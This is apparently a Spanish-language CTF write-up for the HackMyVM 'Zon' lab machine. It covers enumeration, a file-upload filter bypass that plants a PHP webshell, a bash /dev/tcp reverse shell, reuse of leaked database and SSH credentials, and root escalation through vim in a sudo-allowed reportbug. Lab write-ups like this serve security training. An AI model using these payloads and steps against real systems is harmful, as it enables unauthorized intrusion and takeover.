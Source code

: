 ```yaml
---
layout: post
title: HackMyVM - Zon
author: c4rta
date: 2024-01-24
tags: [HackMyVM, Arbitrary File Upload]
image: /assets/img/zon/waifu.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.74
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Al principio intente hacer fuzzing con el diccionario de **directory-list-2.3-medium.txt** pero no encontre nada, por lo que use uno de archivos, y encontre el endpoint **choose.php** haciendo uso de gobuster

```ruby
gobuster dir -u 192.168.1.74 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 50
```
```ruby
/choose.php           (Status: 200) [Size: 1908]
```

## Explotacion (Arbitrary File Upload)

Viendo el funcionamiento de **choose.php**, vemos que podemos subir archivos .zip con archivos .jpeg dentro, y una vez subidos, se encuentran en el recurso **/uploads**. Si intentamos subir un archivo que no es jpeg, nos muestra algo como esto

    File prueba.zip has been uploaded.Archive contains non-JPEG files. It will be deleted.

En este punto podriamos probar tratar de hacer bypass de algunos filtros o hacer zip symlik pero no sera necesario, despues de una busqueda, encontre una forma de hacer **command injection** a travez del nombre del archivo que se sube a un sitio web, como se explica en este blog: [https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename](https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename)

Vemos que nos dice podemos ejecutar comandos si subimos un archivo con este nombre **a$(whoami)z.jpeg**, que viendo su funcionamiento, se trendria que hacer la expansion de comandos y mostrar el resultado de **whoami**, intente eso pero subiendo una webshell y no me funciono, entonces se me ocurrio que podria ser el nombre del archivo, asi que tenia que ponerlo de forma literal usando comillas simples para que no me escapara los caracteres especiales como el espacio, ademas de poner la extension **.jpeg**  para que lo aceptara. Asi que los pasos fueron:

1. Crear un archivo php que sea una webshell, yo use: **<?php system($_GET['cmd']); ?>**

2. Renombar el archivo:  
    ```ruby
    cp shell.php 'hola.jpeg .php'
    ```
    Se tiene que poner el espacio y entre comillas para que se interprete de forma literal, como se ve en la imagen en el archivo de arriba, y cuando se procese se elimine el espacio en blanco

    ![](/assets/img/zon/1.png)

3. Y por ultimo se comprime: **zip ola.zip 'hola.jpeg .php'**

Una vez que se suba, veremos nuestro archivo php, y habemos podido conseguir RCE

![](/assets/img/zon/3.png)

![](/assets/img/zon/2.png)

Ahora nos podemos enviar una reverse shell usando bash:

```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 <-- Usar URL encode
```

#### ¿Por que funciona?

Si vemos el archivo **upload.php** encargado de la subida del archivo,  vemos la parte en la que hace el filtrado:

```php
$command = "unzip -l " . escapeshellarg($target_file) . " | awk '{print $4}' | grep -v \"\\.jpeg$\" | grep . | tail -n1 | grep \"\\.\"";
        exec($command, $output, $return_var);
```

- Se usa **escapeshellarg** para escapar los caracteres especiales del nombre del archivo
- Despues se usa **awk '{print $4}'** para imprimir la cuarta columna, la cual es el nombre del archivo
- Despues usando grep para filtrar y excluir los que tienen ".jpeg"
- Despues usando otro grep filtra por los archivos que contengan almenos un **.**
- Y para finalizar usa otro grep para filtrar los archivos que tienen un solo punto seguido, es decir, **.** y no **..**, por lo que si el archivo tiene esto **archivo.jpeg ..php**, no lo aceptaria, por tener dos puntos seguidos antes del php

Basicamente funciona por que solo se esta filtrando que contenga la cadena **.jpeg** mas no por toda la extension del archivo, asi que solo es necesario agregar el espacio (que luego sera eliminado) y el **.jpeg** para hacer bypass de ese filtro, seguido de la extension **.php**, quedando el archivo despues de procesar como: **archivo.jpeg.php**

## www-data -> freddie

Si realizamos una busqueda para mostrar los archivos asociados a un grupo, encontraremos uno que se llama **hashdb.sh**

```ruby
find / -type f -group www-data 2> /dev/null
```
```ruby
/var/www/html/hashDB.sh
```

Al ver si contenido, nos podemos dar cuenta que se conecta a mysql y se filtran las credenciales: **admin:-pudgrJbFc6Av#U3**

```bash
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}" <-- Credenciales
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Si nos conectamos, y mostramos las bases de datos, en la base de datos  **admin** encontramos la tabla **credentials** y las credenciales del usuario **freddie** que usaremos en ssh

![](/assets/img/zon/4.png)

usr: freddie

pass: LDVK@dYiEa2I1lnjrEeoMif

## Escalada de privilegios

Al mostrar los permisos a nivel de sudoers podremos ver el archivo **/usr/bin/reportbug** que es un script de python

```ruby
file /usr/bin/reportbug
/usr/bin/reportbug: Python script, ASCII text executable
```
La verdad ni lo vi completo, pero jugue con las funciones, y parece ser un script que enviar reportes de bugs en paquetes de debian, pero, la cuestion es que en un punto nos dice que editor queremos usar y nos da las opciones de **vim** y **nano**, si hacemos una busqueda en GFTOBins, nos dice que podemos spawnear una shell usando ese editor: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Asi que los pasos a seguir son

1. Ejecutar el script y seleccionar la opcion 4 (expert) y rellenar los datos
2. Volvelo a ejecutar y cuando nos diga *Please enter the name of the package in which you have found a problem*, ingresamos "other"
3. Ponemos el numero **12**
4. Si sale el prompt: *Is the bug you found listed above* , le damos **s**
5. Si sale *Please select a severity level:*, le damos **4**
6. Si sale: *Please select tags: (one at a time)*, le damos enter
7. Despues nos deberia de pedir el editor, seleccionamos **vim** e ingresamos estos comandos de vim

```ruby
set shell=/bin/bash
```

Y despues mandamos a llamar a la variable escribiendo **shell** y ya seremos root

![](/assets/img/zon/5.png)

(Espero que me haya explicado bien en esta parte)

Eso ha sido todo, gracias por leer ❤



